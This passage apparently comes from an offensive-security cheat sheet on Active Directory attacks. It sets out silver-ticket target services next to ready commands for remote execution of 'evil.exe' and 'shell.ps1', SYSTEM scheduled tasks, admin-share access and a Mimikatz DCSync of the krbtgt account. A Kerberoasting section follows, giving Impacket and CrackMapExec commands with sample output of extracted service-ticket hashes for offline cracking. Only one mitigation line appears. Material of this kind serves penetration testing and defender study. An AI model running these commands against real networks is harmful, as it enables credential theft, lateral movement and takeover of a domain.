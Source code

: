Interesting services to target with a silver ticket :

| Service Type                                | Service Silver Tickets | Attack |
|---------------------------------------------|------------------------|--------|
| WMI                                         | HOST + RPCSS           | `wmic.exe /authority:"kerberos:DOMAIN\DC01" /node:"DC01" process call create "cmd /c evil.exe"`     |
| PowerShell Remoting                         | CIFS + HTTP + (wsman?) | `New-PSSESSION -NAME PSC -ComputerName DC01; Enter-PSSession -Name PSC` |
| WinRM                                       | HTTP + wsman           | `New-PSSESSION -NAME PSC -ComputerName DC01; Enter-PSSession -Name PSC` |
| Scheduled Tasks                             | HOST                   | `schtasks /create /s dc01 /SC WEEKLY /RU "NT Authority\System" /IN "SCOM Agent Health Check" /IR "C:/shell.ps1"` |
| Windows File Share (CIFS)                   | CIFS                   | `dir \\dc01\c$` |
| LDAP operations including Mimikatz DCSync   | LDAP                   | `lsadump::dcsync /dc:dc01 /domain:domain.local /user:krbtgt` |
| Windows Remote Server Administration Tools  | RPCSS   + LDAP  + CIFS | /      |


Mitigations:
* Set the attribute "Account is Sensitive and Cannot be Delegated" to prevent lateral movement with the generated ticket.

### Kerberoasting

> "A service principal name (SPN) is a unique identifier of a service instance. SPNs are used by Kerberos authentication to associate a service instance with a service logon account. " - [MSDN](https://docs.microsoft.com/fr-fr/windows/desktop/AD/service-principal-names)

Any valid domain user can request a kerberos ticket (TGS) for any domain service. Once the ticket is received, password cracking can be done offline on the ticket to attempt to break the password for whatever user the service is running as.


* [GetUserSPNs](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) from Impacket Suite
  ```powershell
  $ GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request

  Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

  ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet      LastLogon           
  --------------------  -------------  --------------------------------------------------------  -------------------  -------------------
  active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 21:06:40  2018-12-03 17:11:11 

  $krb5tgs$23$*Administrator$ACTIVE.HTB$active/CIFS~445*$424338c0a3c3af43[...]84fd2
  ```

* CrackMapExec Module
  ```powershell
  $ crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --kerberoast output.txt
  LDAP        10.0.2.11       389    dc01           [*] Windows 10.0 Build 17763 x64 (name:dc01) (domain:lab.local) (signing:True) (SMBv1:False)
  LDAP        10.0.2.11       389    dc01           $krb5tgs$23$*john.doe$lab.local$MSSQLSvc/dc01.lab.local~1433*$efea32[...]49a5e82$b28fc61[...]f800f6dcd259ea1fca8f9
  ```
